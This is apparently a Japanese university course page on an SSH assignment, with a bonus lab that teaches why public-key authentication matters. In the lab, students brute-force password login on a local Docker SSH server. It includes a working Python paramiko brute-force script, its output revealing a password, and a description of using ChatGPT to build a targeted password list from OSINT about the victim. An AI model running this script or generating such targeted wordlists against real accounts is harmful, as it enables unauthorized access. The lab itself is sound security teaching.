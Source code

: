# 課題

!!! Warning
    Codespaceで行ってはいけません。情報漏洩のリスクがあります。  
    間違えてやってしまった場合は、早急にTAに連絡してください。

## 課題
559のサーバーであるdover.eps.s.u-tokyo.ac.jpにSSHでログインしてください。  
次に、課題１で手元に持ってきたkadai.txtに対する答えを、doverの/home0/akutagawa2024/submitディレクトリに送ってください。4月中に提出してください。  
ファイルの名前は、(アカウント名).txtでお願いします。  


## おまけ：パスワード認証SSHサーバーに対するサイバー攻撃
公開鍵認証の大切さを知るために、サイバー攻撃の流れを見てみましょう。

実際に取り組めるようにしているので、余裕のある方はハッカー(正確にはクラッカー)になったつもりでやってみてください。Codespaceで行うのが楽かなと思います。  
かなり都合の良い展開が続きますが、それは上手くいくようにわざとセットしたからです。

!!! Warning
    許可無く他のサーバーに以下のことを行った場合、ほぼ間違いなく法に触れることになります。  
    決して行ってはいけません。  

---

ログインサーバー(559で言うところのdover)へ遠隔ログインを試みます。  
この際、あなたはOSINT等によりユーザー名「chibutsu」は推測できたものの、パスワードは分からないことが前提です。つまり不正ログインをしようとしているわけです。  
どのようにパスワードを入手しますか？　自分の長所を活かした方法を考えてみてください。

---

今回は計算機演習の授業なので、コンピュータ内で完結する手法の1つを紹介します。  
心理学的な攻撃を思いついた方は、「ソーシャルエンジニアリング」で検索してみてください。

---

今回は軽量コンテナであるdockerを用いて仮想的なログインサーバーを作り、それを攻撃します。   
自分のPCにdockerをインストールするか、Codespaceを使ってください。559のMac miniにはインストールされていません。

---

以下、Codespaceで行う場合の手順です。  
まずは、`/workspaces/chibutsu-utokyo.github.io/docs/RemoteAccess`に移動して、docker_setup.shを実行してください。少し時間がかかります。
```
$ cd /workspaces/chibutsu-utokyo.github.io/docs/RemoteAccess

# 権限を要求された場合
$ chmod 700 docker_setup.sh
$ ./docker_setup.sh
```
上手くいけば、以下のようなメッセージが表示されるはずです。
```
dockerコンテナの準備が完了しました。
'ssh ユーザー名@localhost -p 22222'でSSHログインができます。
```

試しにSSHしてみましょう。パスワードは今のところ分からないはずなので、適当に入力してください。
```
$ ssh chibutsu@localhost -p 22222
The authenticity of host '[localhost]:22222 ([::1]:22222)' can't be established.
ECDSA key fingerprint is SHA256:7CsZMUdMUJCx9qX89ZxRaUj2s8u8MBnuB2NUFZK+W4A.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[localhost]:22222' (ECDSA) to the list of known hosts.
chibutsu@localhost's password: 
Permission denied, please try again.
chibutsu@localhost's password: 
Permission denied, please try again.
chibutsu@localhost's password: 
chibutsu@localhost: Permission denied (publickey,password).
```
当たり前ですがログインできません…

---

今回はブルートフォース攻撃(総当たり攻撃)をやってみようと思います。あり得そうなパスワードのリストを片っ端から試す攻撃手法です。  

調査の結果、「chibutsu」さんは東京大学の地球惑星物理学科に所属する学生であることが分かりました。
主に固体地球・大気海洋・宇宙惑星が好きな学生が所属する機関らしいです。  
この情報を元にChatGPTにパスワードリストを作成してもらい、passwords.txtに保存しました。  

それでは、このパスワードリストを用いてSSHログインを試しましょう。  
シェルスクリプトで攻撃コードを組むのは意外と大変なので、Pythonで組みました。  
理解できなくても良いので、bruteforce_ssh.pyを眺めてみてください。Pythonの授業が終わる頃には、何をしているかなんとなく分かるようになっているはずです。 

```
# bruteforce_ssh.py

import paramiko 
import time
import sys


passwords_path = "passwords.txt" # パスワードリストの場所

# ssh ユーザー名@localhost -p 22222
HOST = "localhost" # SSH接続先
PORT = 22222 # SSH接続のためのポート番号。今回は22222。
USER = "chibutsu" # ユーザー名

# パスワードリストからパスワードを読み込んでSSH接続を試みる。
# 接続が成功したらプログラムを終了させる。
# 失敗したら次のパスワードを試す。
with open(passwords_path, "r") as file:

    for PASSWORD in file:

        # 改行コードを取り除く
        PASSWORD = PASSWORD.replace("\n", "")

        ssh = paramiko.SSHClient()
        ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        
        try:
            ssh.connect(hostname=HOST, port=PORT, username=USER, password=PASSWORD)
            print()
            print("SUCCESS!")
            print(f"username : {USER}")
            print(f"password : {PASSWORD}")

            sys.exit()
        except paramiko.AuthenticationException:
            print(f"{PASSWORD} is not correct...")
        finally:
            ssh.close()
```

!!! Note
    paramikoというライブラリが必要です。`pip install paramiko`でインストールしてください。

このコードを試した結果、パスワードが判明しました。
```
$ python bruteforce_ssh.py 
earth is not correct...
planet is not correct...
physics is not correct...
...
tornado is not correct...
storm is not correct...

SUCCESS!
username : chibutsu
password : aurora
```

SSHログインします。
```
$ ssh chibutsu@localhost -p 22222
chibutsu@localhost's password:  # "aurora"と入力
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 6.5.0-1017-azure x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
chibutsu@960522125acf:~$ 
```

これで不正ログイン完了です。 

ここからは権限昇格を狙ったりバックドアを仕込んだりしますが、これ以上は行いません。  
ここまでお付き合いいただきありがとうございました。  

---

公開鍵認証が大切だと少しでも感じていただけた方は設定をお願いします。  
[SSHのページ](SSH.md)

